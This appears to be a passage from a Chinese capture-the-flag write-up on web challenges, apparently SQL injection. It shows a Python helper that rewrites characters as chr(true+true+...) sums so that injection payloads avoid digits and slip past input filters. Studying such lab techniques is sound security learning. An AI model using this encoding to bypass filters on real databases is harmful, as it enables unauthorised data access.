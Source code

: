 这里就要说明一下

数据库中true相当于1，而true+true==2

那么我们就可以去拼接出我们想要的数字

以下是生成chr的数字字符串函数

```python
def createNum(n):
    str = 'true'
    if n == 1:
        return 'true'
    else:
        for i in range(n - 1):
            str += "+true"
    return str
#把每一个字符转换成ascii码对应的数值
def change_str(s):
    str=""
    str+="chr("+createNum(ord(s[0]))+")"
    for i in s[1:]:
        str+=",chr("+createNum(ord(i))+")"
    return str
```

### web187

![截图](b5f04e86eb712716cfb5bcaf8754dd4e.png)
